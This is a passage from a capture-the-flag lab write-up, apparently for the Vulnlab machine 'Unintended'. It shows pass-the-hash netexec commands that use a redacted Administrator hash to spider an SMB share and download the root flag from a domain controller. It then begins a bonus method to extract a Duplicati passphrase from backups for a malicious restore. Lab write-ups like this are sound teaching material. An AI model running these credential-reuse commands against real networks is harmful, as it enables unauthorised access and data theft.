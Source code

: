 ```shell-session
└─$ cat root.txt    
VL{...}
```

We can also read it with `nxc`:

```shell-session
└─$ nxc smb dc -u Administrator -H 36fe<...>f8a3 --spider home --pattern txt
SMB         10.10.143.229   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
SMB         10.10.143.229   445    DC               [+] unintended.vl\Administrator:36fe<...>f8a3 (Pwn3d!)
SMB         10.10.143.229   445    DC               [*] Started spidering
SMB         10.10.143.229   445    DC               [*] Spidering .
SMB         10.10.143.229   445    DC               //10.10.143.229/home/root.txt [lastm:'2024-03-30 09:37' size:37]
SMB         10.10.143.229   445    DC               [*] Done spidering (Completed in 0.23603272438049316)
```

```shell-session
└─$ nxc smb dc -u Administrator -H 36fe<...>f8a3 --share home --get-file root.txt root.txt
SMB         10.10.143.229   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
SMB         10.10.143.229   445    DC               [+] unintended.vl\Administrator:36fe<...>f8a3 (Pwn3d!)
SMB         10.10.143.229   445    DC               [*] Copying "root.txt" to "root.txt"
SMB         10.10.143.229   445    DC               [+] File "root.txt" was downloaded to "root.txt"
```

```shell-session
└─$ cat root.txt
VL{...}
```

## (Bonus) Root on WEB

There's a third user flag that involves getting root on WEB (target 2) and that I didn't get by myself at the time. Thanks to the Discord's master channel I was able to understand and reproduce other people's method. It consists of extracting the Duplicati server passphrase from a backup, logging in to the web interface and creating a malicious backup and restore. I will show the detailed process here.

### Extracting the Duplicati server passphrase

First transfer the Duplicati backup we found on target 3 to our attack host:

```shell-session
abbie@unintended.vl@backup:~$ docker exec -it scripts_ftp_1 bash
root@ftp:/ftp# 
```

```shell-session
root@ftp:/ftp/volumes# ls docker_src/
duplicati-20240125T071045Z.dlist.zip            duplicati-ba27818c8bd7a4ea6a506fde8314c48d1.dblock.zip  duplicati-ie324293d766446ddbe27823f52e30d4c.dindex.zip
duplicati-b71dd219377964328aa2c79f4bc7354a5.dblock.zip  duplicati-i48680ba57a084652a109d584aebc63a9.dindex.zip
duplicati-b9d86c254096f4531b0be8e536a59ff07.dblock.zip  duplicati-i570def036a8d475c9ec47b861bee206a.dindex.zip
```
